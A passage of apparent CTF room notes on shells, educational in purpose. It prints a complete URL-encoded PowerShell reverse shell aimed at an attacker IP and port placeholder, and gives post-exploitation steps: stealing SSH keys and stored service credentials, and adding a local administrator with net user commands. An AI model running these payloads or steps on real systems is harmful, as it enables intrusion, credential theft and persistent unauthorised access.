 When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server. With the former method, obtaining RCE is often done with a URL Encoded Powershell Reverse Shell. This would be copied into the URL as the <code>cmd</code> argument:</p>

<pre><code>powershell%20-c%20%22%24client%20%3D%20New-	Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-
TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-		String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22 
</code></pre>

<p>This is the same shell we encountered in Task 8, however, it has been URL encoded to be used safely in a GET parameter. Remember that the IP and Port (bold, towards end of the top line) will still need to be changed in the above code.</p>

> 11.1 - <em>Read the WebShells information.</em><br>
>> <code><strong>No answer needed</strong></code><br>
<p><br></p>

<h2>Task 12 - Next Steps</h2>
<p></p>

<strong>Ok, we have a shell. Now what? </strong>

<br>

<p>We've covered lots of ways to generate, send and receive shells. The one thing that these all have in common is that they tend to be unstable and non-interactive. Even Unix style shells which are easier to stabilise are not ideal. So, what can we do about this?<br>

On Linux ideally we would be looking for opportunities to gain access to a user account. SSH keys stored at <code>/home/<user>/.ssh</code> are often an ideal way to do this. In CTFs it's also not infrequent to find credentials lying around somewhere on the box. Some exploits will also allow you to add your own account. In particular something like <a href="https://tryhackme.com/r/room/introtoshells](https://dirtycow.ninja/)">Dirty C0w</a> or a writeable /etc/shadow or /etc/passwd would quickly give you SSH access to the machine, assuming SSH is open.<br>



On Windows the options are often more limited. It's sometimes possible to find passwords for running services in the registry. VNC servers, for example, frequently leave passwords in the registry stored in plaintext. Some versions of the FileZilla FTP server also leave credentials in an XML file at <code>C:\Program Files\FileZilla Server\FileZilla Server.xml</code>
 or <code>C:\xampp\FileZilla Server\FileZilla Server.xml</code><br>
. These can be MD5 hashes or in plaintext, depending on the version.<br>

Ideally on Windows you would obtain a shell running as the SYSTEM user, or an administrator account running with high privileges. In such a situation it's possible to simply add your own account (in the administrators group) to the machine, then log in over RDP, telnet, winexe, psexec, WinRM or any number of other methods, dependent on the services running on the box.<br>

The syntax for this is as follows:<br>
<code>net user <username> <password> /add</code><br>
<code>net localgroup administrators <username> /add</code><br>

